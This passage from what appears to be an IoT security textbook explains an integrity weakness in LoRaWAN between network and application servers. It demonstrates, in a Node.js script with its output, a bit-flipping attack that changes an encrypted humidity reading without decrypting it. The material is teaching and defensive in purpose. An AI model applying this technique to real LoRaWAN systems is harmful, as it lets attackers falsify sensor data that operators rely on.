 through an insecure channel. LoRaWAN doesn’t specify how the two servers should connect. This means that the integrity of the message gets checked on the network server only (using the NwkSKey). A man-in-the-middle attacker between the two servers could modify the ciphertext. Because the application server has only the AppSKey but not the NwkSKey, there’s no way to validate the packet’s integrity, so the server can’t know if it received a maliciously modified packet. *   If the network and application server are the same entity, the attack is possible if the server acts upon the FRMPayload, decrypting and using its value, before the server checks the MIC.    We’ll demonstrate how this attack would work by emulating it using the `lora-packet`*Node.js* library, which should also shed some light on how a LoRaWAN packet looks in practice. Node.js is an open source JavaScript runtime environment that lets you execute JavaScript code outside of a browser. Make sure you’ve installed Node.js before you begin. Installing `npm` through `apt-get` will also install Node.js.    Install the `npm` package manager, which you can use to install the *lora-packet* library. On Kali, you can use this command:    ``` # **apt-get install npm** ```    Then download the GitHub version of `lora-packet` from [`github.com/anthonykirby/lora-packet/`](https://github.com/anthonykirby/lora-packet/) or install it directly using `npm`:    ``` # **npm install lora-packet** ```    You can then run the code in Listing 13-4 as you would run any executable script. Copy it into a file, change its permissions to be executable with the `chmod a+x <script_name>.js` command, and run it in a terminal. The script creates a LoRaWAN packet and emulates the bit-flipping attack by altering a specific portion of it without first decrypting it.    ```  #!/usr/bin/env node 1   var lora_packet = require('lora-packet'); 2    var AppSKey = new Buffer('ec925802ae430ca77fd3dd73cb2cc588', 'hex'); 3   var packet = lora_packet.fromFields({ 4         MType: 'Unconfirmed Data Up', 5         DevAddr: new Buffer('01020304', 'hex'), // big-endian 6         FCtrl: {             ADR: false,             ACK: true,             ADRACKReq: false,             FPending: false         },       payload: 'RH:60', 7     }     , AppSKey     , new Buffer("44024241ed4ce9a68c6a8bc055233fd3", 'hex') // NwkSKey   );    console.log("original packet: \n" + packet); 8   var packet_bytes = packet.getPHYPayload().toString('hex');   console.log("hex: " + packet_bytes);   console.log("payload: " + lora_packet.decrypt(packet, AppSKey, null).toString());    var target = packet_bytes; 9   var index = 24;   target = target.substr(0, index) + '1' + target.substr(index + 1);    console.log("\nattacker modified packet"); a   var changed_packet = lora_packet.fromWire(new Buffer(target, 'hex'));   console.log("hex: " + changed_packet.getPHYPayload().toString('hex'));   console.log("payload: " + lora_packet.decrypt(changed_packet, AppSKey, null).toString()); ```    Listing 13-4: Demonstration of a bit-flipping attack on a LoRaWAN payload using the library *lora-packet*    We first write the `node` shebang 1 to indicate this code will be executed by the Node.js interpreter. We then import the `lora-packet` module 2 using the ``require directive and save it into the `lora_packet` object. The value of `AppSKey`3 doesn’t really matter for this exercise, but it has to be exactly 128 bits.``   ````We create a LoRa packet that will serve as the attacker’s target 4. The output of our script displays the packet fields, as well. The `MType` field 5 of the MHDR indicates that this is a data message coming from a node device without awaiting confirmation from the server. The four-byte `DevAddr`6 is part of the FHDR. The application layer `payload`7 is the value `RH:60`. RH stands for relative humidity, indicating this message is coming from an environmental sensor. This payload corresponds to the FRMPayload (shown in the output that follows), which we got by encrypting the original payload (`RH:60`) with the AppSKey. We then use the *lora-packet* library’s functions to print the packet fields in detail, its bytes in hexadecimal form, and the decrypted application payload 8.    Next, we perform the bit-flipping attack 9. We copy the packet bytes into the `target` variable, which is also how a man-in-the-middle attacker would capture the packet. Then we have to choose the position inside the packet where we should make the alteration. We chose position 24, which corresponds to the value of the RH—the integer part of the payload, after `RH:` (which is the string part). The attacker will normally have to guess the location of the data they want to alter unless they know the payload’s format beforehand.    We finally print the modified packet a, and as you can see in the following output, the decrypted payload now has the RH value of `0`.    ``` root@kali:~/lora# **./dec.js** original packet:  Message Type = Data             PHYPayload = 400403020120010001EC49353984325C0ECB            ( PHYPayload = MHDR[1] | MACPayload[..] | MIC[4] )                   MHDR = 40             MACPayload = 0403020120010001EC49353984                    MIC = 325C0ECB            ( MACPayload = FHDR | FPort | FRMPayload )                   FHDR = 04030201200100                  FPort = 01             FRMPayload = EC49353984                  ( FHDR = DevAddr[4] | FCtrl[1] | FCnt[2] | FOpts[0..15] )                DevAddr = 01020304 (Big Endian)                  FCtrl = 20                   FCnt = 0001 (Big Endian)                  FOpts =             Message Type = Unconfirmed Data Up              Direction = up                   FCnt = 1              FCtrl.ACK = true              FCtrl.ADR = false  hex: **40**0403020120010001**ec49353984**325c0ecb payload: RH:60  attacker modified packet hex: 400403020120010001ec4935**1**984325c0ecb payload: RH:0 ```